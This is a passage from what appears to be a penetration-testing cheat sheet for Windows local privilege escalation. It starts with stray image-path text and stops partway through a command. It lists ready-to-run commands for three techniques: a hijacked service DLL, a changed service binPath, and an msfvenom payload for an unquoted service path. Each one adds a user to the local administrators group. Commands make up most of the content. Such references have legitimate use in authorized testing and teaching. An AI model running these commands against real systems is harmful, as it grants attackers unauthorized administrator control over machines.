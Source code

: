 Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

Windows_dll.c:

cmd.exe /k net localgroup administrators user /add

2\.

x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

3\.

sc stop dllsvc & sc start dllsvc

<a name="abusing-services-via-binpath"></a>
# Abusing Services via binPath

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

sc config daclsvc binpath= \"net localgroup administrators user /add\"

2\.

sc start daclsvc

<a name="abusing-services-via-unquoted-path"></a>
# Abusing Services via Unquoted Path

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

msfvenom -p windows/exec CMD=\'net localgroup administrators user /add\'
-f exe-service -o
